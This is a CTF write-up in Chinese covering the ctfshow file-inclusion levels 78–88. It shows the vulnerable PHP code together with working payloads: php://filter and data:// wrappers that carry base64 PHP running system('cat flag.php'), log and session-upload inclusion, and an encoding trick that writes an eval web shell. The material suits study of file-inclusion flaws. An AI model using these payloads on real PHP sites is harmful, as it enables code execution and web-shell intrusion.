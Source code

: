 ```yaml
---

title: ctfshow_文件包含
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 技术
date: 2021-01-27 16:56:29
tags: 文件包含
keywords:
description:
photos: \img\article\9.png
---
```


## 78

file=php://filter/read=convert.base64-encode/resource=flag.php

## 79

file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

## 80-81 包含日志文件

我们的请求保存在了日志中,若我们用include包含日志则可能执行里面的php语句

![image-20210127172041783](ctfshow-文件包含/image-20210127172041783.png)

## 82-86 PHP_SESSION_UPLOAD_PROGRESS进行文件包含

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

因为之前在session反序列化里面写过了，就不介绍了,这题多了一个条件竞争,开两个burp就行了

![image-20210128102252793](ctfshow-文件包含/image-20210128102252793.png)

![image-20210128102559776](ctfshow-文件包含/image-20210128102559776.png)

## 87 **file_put_content配合协议**

```PHP
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

先上图，

![image-20210128110521421](ctfshow-文件包含/image-20210128110521421.png)

为了绕过前面的str_replace ,这里将file进行两次编码

![image-20210128110705729](ctfshow-文件包含/image-20210128110705729.png)

而后面的content是与前面的phpdie拼接,<?php die(); 中合法的base64字符串是phpdie,而base64是每四个字一组,则加两个aa,让前面的八个字母组合,从而不影响我们后面的 <?php @eval($_POST[a]);

![image-20210128110930079](ctfshow-文件包含/image-20210128110930079.png)

![image-20210128110818439](ctfshow-文件包含/image-20210128110818439.png)



还有一些相关文章:https://xz.aliyun.com/t/8163#toc-3%20php://filter/write=string.rot13/resource=2.php

https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=2#reply-list

## 88

```PHP
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了很多,但是没有过滤:

使用伪协议

`data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTsgPz4`